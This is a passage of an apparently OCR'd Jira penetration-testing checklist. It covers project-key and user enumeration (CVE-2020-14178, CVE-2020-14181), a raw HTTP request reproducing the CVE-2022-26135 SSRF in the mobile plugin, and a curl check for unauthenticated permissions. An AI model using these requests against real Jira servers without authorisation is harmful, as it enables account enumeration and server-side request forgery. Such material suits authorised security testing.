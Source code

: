 ```
```
[ ] cve-2020-14178 (project key enumeration)
```
Navigate to <JIRA_URL>/browse.<project_ key>
Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.
```
[ ] cve-2020-14181 (user enumeration)
```
Navigate to <JIRA_URL>/secure/ ViewUserHover.jspa?username=<username>
Observe the response when valid vs. invalid username is provided.
```
[ ] CVE-2022-26135 ( Full-Read Server Side Request Forgery in Mobile Plugin for Jira Data Center and Server )
```
https://github.com/assetnote/jira-mobile-ssrf-exploit
```
The following HTTP request can be used to reproduce this issue, once authenticated to the Jira instance:
```
POST /rest/nativemobile/1.0/batch HTTP/2
Host: issues.example.com
Cookie: JSESSIONID=44C6A24A15A1128CE78586A0FA1B1662; seraph.rememberme.cookie=818752%3Acc12c66e2f048b9d50eff8548800262587b3e9b1; atlassian.xsrf.token=AES2-GIY1-7JLS-HNZJ_db57d0893ec4d2e2f81c51c1a8984bde993b7445_lin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Origin: https://issues.example.com
Referer: https://issues.example.com/plugins/servlet/desk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 63

{"requests":[{"method":"GET","location":"@example.com"}]}
```

[ ] Check Privileges
Inside a Jira instance any user (even non-authenticated) can check its privileges in 
```
/rest/api/2/mypermissions or 
/rest/api/3/mypermissions  
```
These endpoints will return your current privileges.If a non-authenticated user have any privilege, this is a vulnerability (bounty?).If an authenticated user have any unexpected privilege, this a a vuln.

```
#Check non-authenticated privileges
curl https://jira.some.example.com/rest/api/2/mypermissions | jq | grep -iB6 '"havePermission": true'
```
